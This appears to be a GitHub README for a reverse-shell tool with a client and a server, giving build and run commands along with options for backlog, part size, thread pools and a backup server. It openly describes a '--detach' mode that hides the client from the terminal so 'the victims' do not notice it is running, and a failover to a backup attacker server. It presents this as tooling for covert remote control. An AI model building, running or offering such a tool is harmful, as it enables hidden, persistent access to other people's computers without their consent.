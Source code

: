 # Reverse Shell
this projects contains a client side and a server side
## client side:
```
make && ./client -i ip -p port --detach 
```
if you use --detach it makes a child process and kills the parent and  detachs the child from terminal so the victims does not realize that the program is still running 
and reroute stdout to a file for debug purposes
client gets a back up port and ip and makes a child process so if we confronted any problems with connecting to the current server the it signals the already made child process to proceed and connect
to the back up server with the given back up port and ip given from the server during  the handshake

## server side (ordinary)
```
make && ./server -p port -b backlog -s part_size -bp backup_port -bi backup_ip 
```
it sends the part size to the client and each socket will sends maximum of part size data 
you can change that for better performance

## server side (multi client)
```
make && ./server -p port -b backlog -s part_size -bp backup_port -bi backup_ip  -t thread_num
it uses thread pool for dealing with clinets and a seperate thread for accepting them
thread_num indicates that how any threads we want to have in out thread pool
it is important that it should be at least 5 threads and an optimal of 10 threads
```

## how to run 
run ```make``` for both to compile them 
### server side
```
./out/server.out -b 4 -s 400 -bp 3001 -bi 127.0.0.1  -p 3000

```
add ```-t 10 ``` for threaded server and change ./out/server.out to ./out/parserver.out
### client side
```
./out/client.out -i 127.0.0.1  -p 3004 --detached
```
